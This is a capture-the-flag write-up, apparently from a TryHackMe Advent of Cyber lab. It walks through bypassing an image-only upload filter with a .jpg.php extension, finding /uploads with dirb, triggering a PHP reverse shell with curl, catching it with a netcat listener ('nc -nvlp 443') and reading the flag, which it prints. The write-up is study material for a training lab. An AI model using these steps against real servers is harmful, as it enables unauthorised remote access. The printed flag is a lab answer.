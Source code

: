 # Day 2: The Elf Strikes Back!

## Notes

### GET Parameters and URLs
https://www.thebestfestivalcompany.xyz/index.php?snack=mincePie
- https is protocol
- www is subdomain
- thebestfestivalcompany is the domain
- .xyz is the top level domain (TLD)
- index.php is the resource we're requesting
- ? indicates that a GET request is being made
- snack=mincePie is the parameter of the GET request

### File Uploads
- File uploads are common but are easy to implement insecurely
- When you have the ability to upload files to a server, you have a path straight to RCE (Remote Command Execution)
- While most file uploads use filtering, it's possible to circumvent it by uploading a malicious file that the server can execute. PHP is good for this because most websites are still written with a PHP backend
- File extension filtering is one of the most common filtering techniques, but if it splits the file name at the dot . then it can be bypassed by uploading a double-barrelled extension like .jpg.php
- It's good practice to upload files to a directory that can't be accessed remotely, but this is often not the case: common subdirectories are /uploads, /images, /media, /resources

### Reverse Shells
- Reverse shell: a script that creates a network connection from the server to our attacking machine
- Since many webservers are written with a PHP backend, we need a PHP reverse shells script

### Reverse Shell Listeners
- A reverse shell listener is used to open a network socket to receive a raw connection
- Simplest form of listener can be created with netcat: "nc -nvlp ```<port>```"


## Writeup
1. Navigate to  ```<ip address>``````/<?id=id_here>```
2. View the source code of the file ```<input type=file id="chooseFile" accept=".jpeg,.jpg,.png">``` and see that it only accepts jpeg, jpg, and png files. Only image files are accepted
3. Change the php reverse shell script ip to the attacking machine's ip and the port to a port on the attacking machine that's not being used
4. Change the extension of the script to .jpg.php and upload it
5. Use a tool find hidden directories on the web server. I used dirb: "dirb http://10.10.17.250/"

>-----------------
>DIRB v2.22    
>By The Dark Raver
>-----------------
>
>START_TIME: Wed Nov 24 18:40:53 2021
>URL_BASE: http://10.10.17.250/
>WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
>
>-----------------
>
>GENERATED WORDS: 4612                                                          
>
>---- Scanning URL: http://10.10.17.250/ ----
>==> DIRECTORY: http://10.10.17.250/assets/                                                                                                                                              
>+ http://10.10.17.250/cgi-bin/ (CODE:403|SIZE:217)                                                                                                                                      
>+ http://10.10.17.250/favicon.ico (CODE:200|SIZE:1150)                                                                                                                                  
>==> DIRECTORY: http://10.10.17.250/noindex/                                                                                                                                             
>==> DIRECTORY: http://10.10.17.250/uploads/                                                                                                                                             
>                                                                                                                                                                                        
>---- Entering directory: http://10.10.17.250/assets/ ----
>(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
>    (Use mode '-w' if you want to scan it anyway)
>                                                                                                                                                                                        
>---- Entering directory: http://10.10.17.250/noindex/ ----
>==> DIRECTORY: http://10.10.17.250/noindex/common/                                                                                                                                      
>+ http://10.10.17.250/noindex/index (CODE:200|SIZE:4006)                                                                                                                                
>+ http://10.10.17.250/noindex/index.html (CODE:200|SIZE:4006)                                                                                                                           
>                                                                                                                                                                                        
>---- Entering directory: http://10.10.17.250/uploads/ ----
>(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
>    (Use mode '-w' if you want to scan it anyway)
>                                                                                                                                                                                        
>---- Entering directory: http://10.10.17.250/noindex/common/ ----
>==> DIRECTORY: http://10.10.17.250/noindex/common/css/                                                                                                                                  
>==> DIRECTORY: http://10.10.17.250/noindex/common/fonts/                                                                                                                                
>==> DIRECTORY: http://10.10.17.250/noindex/common/images/                                                                                                                               
>                                                                                                                                                                                        
>---- Entering directory: http://10.10.17.250/noindex/common/css/ ----
>+ http://10.10.17.250/noindex/common/css/styles (CODE:200|SIZE:71634)                                                                                                                   
>                                                                                                                                                                                        
>---- Entering directory: http://10.10.17.250/noindex/common/fonts/ ----
>                                                                                                                                                                                        
>---- Entering directory: http://10.10.17.250/noindex/common/images/ ----
>                                                                                                                                                                                        
>-----------------
>END_TIME: Wed Nov 24 18:42:11 2021
>DOWNLOADED: 27672 - FOUND: 5

6. We see that uploaded files are in /uploads/
7. Start a netcat listener on the port we used in the script: "nc -nvlp 443"
8. Now we navigate to the browser to launch the payload or just use curl: "curl http://10.10.17.250/uploads/php-reverse-shell.jpg.php"
10. Now we have a reverse shell! To find the flag: "cat /var/www/flag.txt" and we get THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}
